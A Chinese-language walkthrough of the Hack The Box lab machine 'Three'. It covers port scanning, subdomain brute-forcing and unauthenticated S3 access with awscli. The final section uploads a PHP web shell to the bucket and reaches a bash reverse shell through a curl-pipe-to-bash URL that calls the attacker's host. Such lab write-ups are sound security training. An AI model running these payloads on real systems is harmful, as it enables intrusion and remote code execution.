Three

任务1

打开了多少个TCP端口？

使用nmap扫描主机地址

```
nmap -sV -p 0-65535 10.129.55.173
```



答案：2

任务2

网站“联系方式”部分提供的电子邮件地址的域是什么？

thetoppers.htb


任务3

在没有DNS服务器的情况下，我们可以使用哪个Linux文件将主机名解析为IP地址，以便能够访问指向这些主机名的网站？

/etc/hosts

将网站添加到hosts

```
echo "10.129.55.173 thetoppers.htb" >> /etc/hosts
echo "10.129.55.173 s3.thetoppers.htb" >> /etc/hosts
```

任务4

在进一步的爆破过程中会发现哪个子域？

使用gobuster工具进行子域名爆破

字典下载地址：https://wordlists-cdn.assetnote.io/data/manual/2m-subdomains.txt

其他教程都是用vhost模块，但是我用hosts跑不出来，将s3加入hosts中使用dns爆破

```
gobuster dns -d thetoppers.htb -t 10  -w /root/文档/2m-subdomains.txt
```



答案：s3.thetoppers.htb

任务5

哪个服务正在发现的子域上运行？



使用的 `hypercorn` 这是一个 `ASGI` 服务器 ，`hypercorn`最初是Quart的一部分，后来被分离为 独立ASGI服务器。

答案：Amazon S3

任务6

哪个命令行实用程序可用于与在发现的子域上运行的服务交互？

awscli

```


```

任务7

以下哪一个命令用于设置AWS CLI安装？

aws configure


任务8

上述实用程序使用什么命令来列出所有S3存储桶？

aws s3 ls


任务9

此服务器配置为运行用哪种Web脚本语言编写的文件？

php


提交根标志


安装awscli

```
apt install awscli -y
```

我们将为所有字段使用任意值，因为有时服务器配置为不检查身份验证（仍然，它必须配置为 aws 才能工作）

```
awsc configure
```



我们可以使用ls命令列出服务器托管的所有S3桶

```
aws --endpoint=http://s3.thetoppers.htb s3 ls
```



我们还可以使用ls命令列出指定bucket下的对象和常用前缀

```
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```



我们在指定的桶中看到index.php、.htaccess文件和一个名为images的目录。看起来这是在80端口上运行的网站的web浏览器。因此Apache服务器使用这个S3桶作为存储。

Awscli还有另一个功能，允许我们将文件复制到远程存储桶。我们已经知道这个网站使用的是PHP。因此，我们可以尝试上传一个PHP shell文件到S3桶，由于它被上传到了webroot目录，我们可以在浏览器中访问这个网页，而浏览器将反过来执行这个文件，我们可以用来远程代码执行。

生成php执行系统命令，这条命令会导致用户执行任意系统命令

```
echo '<?php system($_GET["123"]); ?>' > shell.php
```



我们可以将这个PHP shell上传到顶层服务器。使用以下命令创建S3桶

```
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php  s3://thetoppers.htb
```



使用下面地址访问执行id命令

```
http://thetoppers.htb/shell.php?123=id
```

服务器的响应包含操作系统命令 id 的输出，它验证了我们在盒子上执行了代码。 因此，现在让我们尝试获得一个反向 shell。 通过反向 shell，我们将触发远程主机在指定的监听端口上连接回我们本地机器的 IP 地址。 我们可以使用以下命令获取本地机器的 tun0 IP 地址

```
ifconfig
```



让我们通过创建一个新文件shell.sh来获得一个反向shell，该文件包含以下bash反向shell有效负载，该有效负载将连接到端口5566上的本地机器

```
#! /bin/bash
bash -i >& /dev/tcp/10.10.14.79/5566 0>&1
```

我们将使用以下命令在本地端口5566上启动一个ncat侦听器。

```
nc -nvlp 5566
```



让我们在本地机器的端口8000上启动一个web服务器，并托管这个bash文件。这里需要注意的是，这个用于托管web服务器的命令必须从包含反向shell文件的目录中运行。因此，我们必须首先进入到适当的目录，然后运行以下命令。

```
python3 -m http.server 8000
```



我们可以使用curl实用程序从本地主机获取bash反向shell文件，然后将其管道传输到bash以执行它。因此，让我们在浏览器中访问包含有效负载的以下URL。

```
http://thetoppers.htb/shell.php?123=curl%2010.10.14.79:8000/shell.sh|bash
```


我们在相应的监听端口上接收到一个反向shell。进入网站找到flag



